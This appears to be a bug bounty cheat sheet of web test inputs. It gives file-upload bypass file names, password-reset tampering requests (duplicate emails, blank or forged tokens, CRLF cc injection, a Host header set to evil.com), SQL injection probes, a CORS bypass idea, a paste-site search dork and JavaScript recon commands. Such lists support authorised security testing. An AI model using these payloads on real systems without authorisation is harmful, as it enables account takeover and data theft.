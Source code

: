 # Bug Bounty Tips
---

## File Upload

`.htaccess`

`file.svg`

`file.SVg`

`file.png.svg`

`file.php%00.png`

`file.png' or '1'='1`

`../../file.png`

`file.'svg`

## Password Reset

```
POST /reset  
email=victim@tld.xyz&email=hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz&token=$BF$
```

```
POST /reset  
email=victim@tld.xyz&token=
```

```
POST /reset  
email=victim@tld.xyz&token=0000000
```

```
POST /reset  
email=victim@tld.xyz&token=nul
```

```
POST /reset  
email=victim@tld.xyz&token=nil
```

```
POST /reset  
email=victim@tld.xyz&token=HACKER-TOKEN
```

```
POST /reset  
email=victim@tld.xyz%0a%0dcc:hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz,hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz%20hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz|hacker@tld.xyz
```

```
POST /reset  
email=victim
```

```
POST /reset  
email=victim@tld
```

```
POST /reset  
Host: evil.com
```

```
POST /reset
{"email":["victim@tld.xyz","hacker@tld.xyz"]}
```

**Check body response for password token**

**Token generation: timestamp? userid? useremail? random?**

## SQL Injection

`/?q=1`

`/?q=1'`

`/?q=1"`

`/?q=[1]`

`/?q[]=1`

```/?q=1` ```

`/?q=1\`

`/?q=1/*'*/`

`/?q=1/*!1111'*/`

`/?q=1'||'asd'||'`

`/?q=1' or '1'='1`

`/?q=1 or 1=1`

`/?q='or''='`

```
username: '--' / "--"
password: '--' / "--"
```

## CORS

```python
if isBlocked("evil.com"):
  try("target.network")
  try("target.computer")
```

## Recon


**site:http://ideone.com | site:http://codebeautify.org | site:http://codeshare.io | site:http://codepen.io | site:http://repl.it | site:http://justpaste.it | site:http://pastebin.com | site:http://jsfiddle.net | site:http://trello.com "$TARGET"**

## File analysis

### Javascript

```
apt-get install jsbeautifier
wget https://target/app.js
js-beautify app.js > pretty.js
```
grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
